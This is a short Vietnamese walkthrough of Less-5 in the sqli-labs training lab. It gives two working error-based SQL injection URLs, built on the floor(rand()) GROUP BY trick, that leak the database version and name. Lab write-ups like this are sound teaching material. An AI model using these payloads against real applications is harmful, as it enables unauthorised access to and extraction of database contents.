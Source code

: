 # Less 5

Yêu cầu nhập vào một ID

![](../images/sqli-labs/Less-5/07.png)

Thử nhập vào một giá trị

![](../images/sqli-labs/Less-5/1.png)

Tiếp tục thử để xuất hiện lỗi

![](../images/sqli-labs/Less-5/2.png)

Ta thấy ta có thể dự đoán câu query ở bên dưới

```
select * from table where id='$ID' limit 0,1
```

Ta có thể thử để pass qua 

![](../images/sqli-labs/Less-5/3.png)

Dựa vào đây ta có thể show ra các thông tin

```
http://192.168.84.233/sqli-labs/Less-5/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version, 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-5/05.png)

```
http://192.168.84.233/sqli-labs/Less-5/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-5/08.png)

Ta có thể khai thác giống với ở [Less-1](Less-1.md)